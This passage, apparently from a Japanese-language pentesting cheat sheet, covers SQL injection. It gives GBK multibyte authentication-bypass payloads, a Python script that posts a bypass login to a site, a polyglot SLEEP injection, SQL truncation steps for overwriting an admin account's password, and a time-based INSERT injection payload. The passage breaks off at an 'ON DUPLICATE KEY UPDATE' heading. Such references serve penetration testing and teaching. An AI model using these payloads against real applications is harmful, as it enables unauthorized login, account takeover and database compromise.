 ### GBK 認証バイパス

IF ' がエスケープされている場合は %A8%27 を使用でき、' がエスケープされると次のように作成されます: 0xA80x5c0x27 (_╘'_)
```sql
%A8%27 OR 1=1;-- 2
%8C%A8%27 OR 1=1-- 2
%bf' or 1=1 -- --
```
Pythonスクリプト:
```python
import requests
url = "http://example.com/index.php"
cookies = dict(PHPSESSID='4j37giooed20ibi12f3dqjfbkp3')
datas = {"login": chr(0xbf) + chr(0x27) + "OR 1=1 #", "password":"test"}
r = requests.post(url, data = datas, cookies=cookies, headers={'referrer':url})
print r.text
```
### ポリグロットインジェクション（マルチコンテキスト）
```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
## Insert Statement

### 既存のオブジェクト/ユーザーのパスワードを変更する

そのためには、**「マスターオブジェクト」と名付けられた新しいオブジェクトを作成する**（おそらく**ユーザーの場合はadmin**）必要があります。何かを変更します：

* 名前を**AdMIn**（大文字と小文字の文字）としてユーザーを作成します
* 名前を**admin=**としてユーザーを作成します
* **SQLトランケーション攻撃**（ユーザー名やメールに**長さ制限**がある場合） --> 名前を**admin \[たくさんのスペース] a**としてユーザーを作成します

#### SQLトランケーション攻撃

データベースが脆弱で、ユーザー名の最大文字数が例えば30の場合、ユーザー**admin**を偽装したい場合は、"_admin \[30スペース] a_"というユーザー名を作成してみてください。

データベースは、入力された**ユーザー名**がデータベース内に**存在するか**を**確認**します。もし**存在しなければ**、**ユーザー名**を**最大許可文字数**（この場合は"_admin \[25スペース]_"に）**切り詰め**、その後、データベース内でユーザー"**admin**"を**新しいパスワード**で更新するために**自動的に末尾のすべてのスペースを削除します**（エラーが表示される可能性がありますが、これは成功しなかったことを意味しません）。

詳細情報: [https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html](https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html) & [https://resources.infosecinstitute.com/sql-truncation-attack/#gref](https://resources.infosecinstitute.com/sql-truncation-attack/#gref)

_注: この攻撃は、最新のMySQLインストールでは上記のようには機能しなくなります。比較はデフォルトで末尾の空白を無視しますが、フィールドの長さよりも長い文字列を挿入しようとするとエラーが発生し、挿入は失敗します。このチェックに関する詳細情報: [https://heinosass.gitbook.io/leet-sheet/web-app-hacking/exploitation/interesting-outdated-attacks/sql-truncation](https://heinosass.gitbook.io/leet-sheet/web-app-hacking/exploitation/interesting-outdated-attacks/sql-truncation)_

### MySQL挿入時間ベースのチェック

`','',''`をできるだけ追加して、VALUESステートメントを終了させると考えます。遅延が実行される場合、SQLインジェクションがあります。
```sql
name=','');WAITFOR%20DELAY%20'0:0:5'--%20-
```
### ON DUPLICATE KEY UPDATE
